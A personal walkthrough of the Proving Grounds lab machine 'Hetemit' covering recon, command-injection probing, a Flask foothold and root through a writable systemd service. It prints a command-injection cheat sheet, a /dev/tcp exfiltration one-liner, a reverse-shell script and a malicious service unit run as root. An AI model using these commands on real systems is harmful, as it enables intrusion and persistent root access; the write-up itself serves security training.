

# Hetemit Helped-Through

Name: Hetemit
Date:  19/10/2023
Difficulty: Intermediate  
Goals:  
- Web Rabbit Holage to the maximum - reflective post mortem on this machine required
Learnt:
- `curl` is the answer to me being a fool with `POST` and `Content-Type`, why have moved from `curl`ing more things.
- I need to exploit more APIs ASAP
- GROUP PERMISSIONS!
	- SCREENSHOT NICE PEASS FINDS
- I am trying harder, but the list of Rabbit Holes is immense on Proving Ground machines
- Note taking style changes required
Beyond Root:
- Webp 2023 maddness
- Reflective post mortem rabbit holage

- [[Hetemit-Notes.md]]
- [[Hetemit-CMD-by-CMDs.md]]

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.


FTP is just a blackhole timeout sadness no anonymous login tears.


Not SambaCry which affect 4.5.9 and before


Decoding the cookie


The cookie must be IP derived as it is the same


As it is used in both 50000 and 18000


#### 18000

The ven-diagram on of just nope - staff and public account non-separation in authentication and back-end management


Uploading a picture may be a file upload vuln.


Trying to probe at the API presuming that we need to exploit it somehow to get to the registered users or get an invite to register or other API vulnerabilities. I started learning about APIs again and actually trying to hack more realistic ones like Helped-Through: [[Awkward-Helped-Through]]. I watched some Insider PHD and re-read my note on OWASP API vulnerabilities to try to understand where and what to look for.


Breaking the cookie we get the information disclosure of you welcome to hacking Ruby on Rails 


It would be really cool to do the recent webp vulnerability, which made the beyond root


I just need an invite code


There is a MD5 generation for the cookie.


Either this is going to be a go learn Javascript idiot and a why is VS code and Snyk not working please work reading obscated Javascript is not a painless experience.

I decide when returned for the third pass over the box to test this form for various vulnerabilities


cmeeks is leaked a a username


#### 50000


Why would anything generate this: 


POST-ing to shred you say returned my hope of enumerating users to shred today. Also the hetemit cookie


Verify CODE! Sounds nice 


This is same cookie as for 18000


Decide to fuzz a parameter in the background with `ffuf`, which when comparing burp indicates to me that this is probably a rabbit hole as there are lots of same response from burp with `code` and for most responses from `ffuf`. I ran regardless for 6453 attempts and filtering the word just in case the response would be a more than one word long.


And the result was nil.

## Exploit

Without actually press the hint button we are already hinted by looking


There is no console and no `verify?console=true` 


Ruby version


Because I have looked for hours on find the exact ruby version, but do not want to metasploit this just yet. 

Realised the the potential Rabbit Hole of configuring a `Rbenv` virtual environment VM system administration to make [mpgn Ruby exploit work](https://github.com/mpgn/Rails-doubletap-RCE/blob/master/README.md). I decided to fling the RCE at the Rails application from Metasploit as last ditch attempt before I decide I must not have found something or try hard enough in some area. I did learn that we could enumerate the Ruby version through rake if we had some kind of CMDi

Enumerate the Ruby Version from [Conor Livingston](https://stackoverflow.com/questions/12979343/how-to-find-out-which-rails-version-an-existing-rails-application-is-built-on)
```bash 
rake about
```

#### Hint 1 used for RCE

WerkZeug!

*Focus on the /verify endpoint. Try different inputs in the code parameter.*


Saw `{}` and its Python so possible SSTI first

It is not PHP Smarty so no SSTI
```python
${7*7}
#{7*7}
# It accept the above so
a{*comment*}b
```

[HackTricks test for Code execution](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/python)
```python
"+str(True)+"
```

Tried CMDi
```bash
#Both Unix and Windows supported
ls||id; ls ||id; ls|| id; ls || id # Execute both
ls|id; ls |id; ls| id; ls | id # Execute both (using a pipe)
ls&&id; ls &&id; ls&& id; ls && id #  Execute 2º if 1º finish ok
ls&id; ls &id; ls& id; ls & id # Execute both but you can only see the output of the 2º
ls %0A id # %0A Execute both (RECOMMENDED)

#Only unix supported
`ls` # ``
$(ls) # $()
ls; id # ; Chain commands
ls${LS_COLORS:10:1}${IFS}id # Might be useful

#Not executed but may be interesting
> /var/www/html/out.txt #Try to redirect the output to a file
< /etc/passwd #Try to send some input to the command
```

Tried sending JSON as maybe there is a connect with the other web servers using the same cookie, but we also cannot POST anything


We also do not need the cookie to return the `{'code'}` 


Example attempts include:

SSTI


Fuzzing for CMDi


## Helped-Through Convention

Its been 6 hours of this machine and I need to finish this and figure what I am missing. Converting this to a Helped-Through.


I did actually try this:
*POST-ing to shred you say returned my hope of enumerating users to shred today. Also the hetemit cookie


Double checked just in case I am the bigger idiot in this


And without the cookie


Well thank you Offsec for now elevating my paranoia over whether burpsuite works. Lesson `curl` everything. Ippsec and BurpSuite are great, but this is nuts. Science is the answer!

My POST request did not have a Content-Type. `Content-Type: application/x-www-form-urlencoded`. That is such a silly mistake.

`admin@toshredsyousay.com : 42432f040c83e46478debf2cdf32cb0513c112166a7d6afac04274743620e70c`


Similarly we can POST and once again `curl` is the answer


The write up goes on to just USE SOCAT like you are suppose to know it is on the box, which is weird. Tried enumeratinmg with `os.system('which socat')`, but the this is blind vulnerability so `ping` ourselves 


## Foothold & PrivEsc

From this point I closed the write-up, firstly ensurely I was choosing a good port, sh instead of bash because CentOS and Offsec insistence it seems on their boxes that Iptables for all non used ports by the machine. This struck me as weird as would there be symmetry in the real world? It is so  weird that I can just exfil app.py with 
`bash -c "cat app.py > /dev/tcp/192.168.45.174/50000"`, but not to 6969


POstGreSQL user and its running on 127.0.0.1 5432


```bash
# mine
2023-10-19+21:07:27.8426520870 /dev/shm/linpeas.sh
# checked
2020-11-13+21:33:49.6513264950 /var/ftp/static/bootstrap/js/html5shiv.js
2020-11-13+21:33:49.6473264950 /var/ftp/shell.py
2020-11-13+21:33:49.6473264950 /var/ftp/run.py
# Tyhe /verify you know that POST and Content-Type idiot app 
2020-11-13+21:19:51.4573523100 /home/cmeeks/restjson_hetemit/app.py
# Weird python script
2020-11-13+20:43:21.9765181170 /usr/local/bin/cheroot
# Flash
2020-11-13+20:43:14.2585183550 /usr/local/bin/flask
#  
2020-11-13+20:39:34.6855251170 /home/cmeeks/.rvm/rubies/ruby-2.6.3/.irbrc
2020-11-13+20:39:33.6965251480 /home/cmeeks/.rvm/rubies/ruby-2.6.3/bin/ri
2020-11-13+20:39:33.6885251480 /home/cmeeks/.rvm/rubies/ruby-2.6.3/bin/irb
2020-11-13+20:39:33.6795251480 /home/cmeeks/.rvm/rubies/ruby-2.6.3/bin/ruby
2020-11-13+20:39:33.6705251490 /home/cmeeks/.rvm/rubies/ruby-2.6.3/bin/executable-hooks-uninstaller
2020-11-13+20:39:33.6625251490 /home/cmeeks/.rvm/rubies/ruby-2.6.3/bin/ruby_executable_hooks
2020-11-13+20:39:33.6545251490 /home/cmeeks/.rvm/rubies/ruby-2.6.3/bin/gem
2020-11-13+20:39:33.6455251490 /home/cmeeks/.rvm/rubies/ruby-2.6.3/bin/bundle
2020-11-13+20:39:33.6375251500 /home/cmeeks/.rvm/rubies/ruby-2.6.3/bin/bundler
2020-11-13+20:39:33.6295251500 /home/cmeeks/.rvm/rubies/ruby-2.6.3/bin/rdoc
2020-11-13+20:39:33.6205251500 /home/cmeeks/.rvm/rubies/ruby-2.6.3/bin/rake
2020-11-13+20:39:33.6115251510 /home/cmeeks/.rvm/rubies/ruby-2.6.3/bin/erb
2020-11-13+20:37:08.8575296090 /home/cmeeks/.rvm/rubies/ruby-2.7.0/.irbrc
2020-11-13+20:37:07.9515296370 /home/cmeeks/.rvm/rubies/ruby-2.7.0/bin/y2racc
2020-11-13+20:37:07.9435296370 /home/cmeeks/.rvm/rubies/ruby-2.7.0/bin/ri
2020-11-13+20:37:07.9355296370 /home/cmeeks/.rvm/rubies/ruby-2.7.0/bin/racc
2020-11-13+20:37:07.9275296370 /home/cmeeks/.rvm/rubies/ruby-2.7.0/bin/irb
2020-11-13+20:37:07.9185296380 /home/cmeeks/.rvm/rubies/ruby-2.7.0/bin/ruby
2020-11-13+20:37:07.9095296380 /home/cmeeks/.rvm/rubies/ruby-2.7.0/bin/executable-hooks-uninstaller
2020-11-13+20:37:07.9015296380 /home/cmeeks/.rvm/rubies/ruby-2.7.0/bin/ruby_executable_hooks
2020-11-13+20:37:07.8935296380 /home/cmeeks/.rvm/rubies/ruby-2.7.0/bin/gem
2020-11-13+20:37:07.8855296390 /home/cmeeks/.rvm/rubies/ruby-2.7.0/bin/racc2y
2020-11-13+20:37:07.8775296390 /home/cmeeks/.rvm/rubies/ruby-2.7.0/bin/bundle
2020-11-13+20:37:07.8685296390 /home/cmeeks/.rvm/rubies/ruby-2.7.0/bin/bundler
2020-11-13+20:37:07.8605296390 /home/cmeeks/.rvm/rubies/ruby-2.7.0/bin/rdoc
2020-11-13+20:37:07.8525296400 /home/cmeeks/.rvm/rubies/ruby-2.7.0/bin/rake
2020-11-13+20:37:07.8425296400 /home/cmeeks/.rvm/rubies/ruby-2.7.0/bin/erb
2020-11-13+20:36:58.6195299240 /home/cmeeks/.rvm/bin/rvm-auto-ruby
2020-11-13+20:36:58.6185299240 /home/cmeeks/.rvm/bin/rvm-exec
2020-11-13+20:36:58.6175299240 /home/cmeeks/.rvm/bin/rvm-smile
2020-11-13+20:36:58.6165299240 /home/cmeeks/.rvm/bin/rvm-shell
2020-11-13+20:36:58.6155299240 /home/cmeeks/.rvm/bin/rvmsudo
2020-11-13+20:36:58.6145299240 /home/cmeeks/.rvm/bin/rvm
2020-11-13+20:36:58.6135299240 /home/cmeeks/.rvm/bin/rvm-prompt
2020-11-13+20:36:58.6015299250 /home/cmeeks/.rvm/hooks/after_use_maglev
2020-11-13+20:36:58.5855299250 /home/cmeeks/.rvm/hooks/after_install_auto_gem
2020-11-13+20:36:58.5665299260 /home/cmeeks/.rvm/scripts/wrapper
2020-11-13+20:36:58.5655299260 /home/cmeeks/.rvm/scripts/upgrade
2020-11-13+20:36:58.5645299260 /home/cmeeks/.rvm/scripts/tools
2020-11-13+20:36:58.5635299260 /home/cmeeks/.rvm/scripts/snapshot
2020-11-13+20:36:58.5625299260 /home/cmeeks/.rvm/scripts/set
2020-11-13+20:36:58.5615299260 /home/cmeeks/.rvm/scripts/rvm
2020-11-13+20:36:58.5605299260 /home/cmeeks/.rvm/scripts/rubygemsInteresting GROUP writable files (not in Home) (max 500)
2020-11-13+20:36:58.5605299260 /home/cmeeks/.rvm/scripts/rtfm
2020-11-13+20:36:58.5595299260 /home/cmeeks/.rvm/scripts/requirements
2020-11-13+20:36:58.5585299260 /home/cmeeks/.rvm/scripts/repair
2020-11-13+20:36:58.5575299260 /home/cmeeks/.rvm/scripts/prepare
2020-11-13+20:36:58.5565299260 /home/cmeeks/.rvm/scripts/pkg
2020-11-13+20:36:58.5555299260 /home/cmeeks/.rvm/scripts/patches
2020-11-13+20:36:58.5545299260 /home/cmeeks/.rvm/scripts/override_gem
2020-11-13+20:36:58.5535299260 /home/cmeeks/.rvm/scripts/osx-ssl-certs
2020-11-13+20:36:58.5525299260 /home/cmeeks/.rvm/scripts/notes
2020-11-13+20:36:58.5515299260 /home/cmeeks/.rvm/scripts/mount
2020-11-13+20:36:58.5505299260 /home/cmeeks/.rvm/scripts/monitor
2020-11-13+20:36:58.5505299260 /home/cmeeks/.rvm/scripts/migrate
2020-11-13+20:36:58.5495299260 /home/cmeeks/.rvm/scripts/manage
2020-11-13+20:36:58.5485299260 /home/cmeeks/.rvm/scripts/maglev
2020-11-13+20:36:58.5475299260 /home/cmeeks/.rvm/scripts/list
2020-11-13+20:36:58.5455299260 /home/cmeeks/.rvm/scripts/irbrc
2020-11-13+20:36:58.5445299260 /home/cmeeks/.rvm/scripts/install
2020-11-13+20:36:58.5445299260 /home/cmeeks/.rvm/scripts/initialize
2020-11-13+20:36:58.5435299260 /home/cmeeks/.rvm/scripts/info
2020-11-13+20:36:58.5425299260 /home/cmeeks/.rvm/scripts/hook
```

I 
```
-rwsr-xr-x. 1 root root 12K Jul 28  2020 /usr/sbin/grub2-set-bootflag (Unknown SUID binary!)
-rwsr-x---. 1 root sssd 161K Apr 24  2020 /usr/libexec/sssd/krb5_child (Unknown SUID binary!)
-rwsr-x---. 1 root sssd 92K Apr 24  2020 /usr/libexec/sssd/ldap_child (Unknown SUID binary!)
-rwsr-x---. 1 root sssd 55K Apr 24  2020 /usr/libexec/sssd/selinux_child (Unknown SUID binary!)
-rwsr-x---. 1 root sssd 29K Apr 24  2020 /usr/libexec/sssd/proxy_child (Unknown SUID binary!)
```

Before I traverse the Ruby bin rabbit hole of doom

Sudo 


Inspecting the weird `/sbin/*`


Trying to see if we can GTFObin with sudo systemctl, but we do not have control of the SYSTEM_EDITOR


`cat /usr/local/bin/cheroot` for replace all `-script.py` or `exe` I check phind to check I understnad the regex `-script.pyw` and also match on that to replace with `''`. Its owned by root and executable
```python
#!/usr/bin/python3.6

# -*- coding: utf-8 -*-
import re
import sys

from cheroot.cli import main

if __name__ == '__main__':
    sys.argv[0] = re.sub(r'(-script\.pyw?|\.exe)?$', '', sys.argv[0])
    sys.exit(main())
```

Weirded out by `sssd` Its just the [SSSD - System Security Services Daemon - sssd.io](https://sssd.io/)


If we can actual reboot we maybe able to set boot flag with Grub which would be awesome.
```

-rwsr-xr-x. 1 root root 12K Jul 28  2020 /usr/sbin/grub2-set-bootflag (Unknown SUID binary!)
```


Rebooting the machine lol, but [/usr/sbin/grub2-set-bootflag will probably just corrupt the env variables for grub](https://bugzilla.redhat.com/show_bug.cgi?id=1764925). We can still reboot, which is interesting


These are just config - no passwords - just readable, but owned as `root:cmeeks`
```
/etc/systemd/system/multi-user.target.wants/pythonapp.service
/etc/systemd/system/pythonapp.service
```

No postgres access


psql vulnerabilities - https://www.cvedetails.com/vulnerability-list/vendor_id-336/product_id-575/version_id-499361/Postgresql-Postgresql-9.2.html

I am now pushing an addition 2 hours. I wen bakc to the writeup and another silly error this time not reading the group for 
`/etc/systemd/system/pythonapp.service` which is writable. We can:
```
cat <<'EOT'> /etc/systemd/system/pythonapp.service
[Unit]
Description=Python App
After=network-online.target

[Service]
Type=simple
ExecStart=/home/cmeeks/reverse.sh
TimeoutSec=30
RestartSec=15s
User=root
ExecReload=/bin/kill -USR1 $MAINPID
Restart=on-failure

[Install]
WantedBy=multi-user.target
EOT
```

```bash
cat <<'EOT'> /home/cmeeks/reverse.sh
#!/bin/bash
sh -i >& /dev/tcp/192.168.45.174/50000 0>&1
EOT
```

```bash
sudo /sbin/reboot
```

I was happy that I got some of the pieces, annoyed that I did not spot that file as writable and learnt the rabbit holage of doom that is some of these Proving Ground Practice machine. 


## Beyond Root

Read https://kashz.gitbook.io/proving-grounds-writeups/pg-boxes/hetemit/8-box-enum-cmeeks
- I did not smbclient
- Also this style of note taking seems to common among older Ippsec, Siren

Ruby and Java Virtual environments exist: https://medium.com/@bhagavathidhass/virtual-environments-for-python-ruby-and-java-87743478ae38

#### Is CVE-2022-30123 a way? - TIL = No another rabbit hole

[Most minimal PacketStorm article I have ever seen](https://packetstormsecurity.com/files/cve/CVE-2022-30123), [Snyk](https://security.snyk.io/vuln/SNYK-RUBY-RACK-2848599)  says its 9.8. The web app are running a cmeeks. There is no inject point. 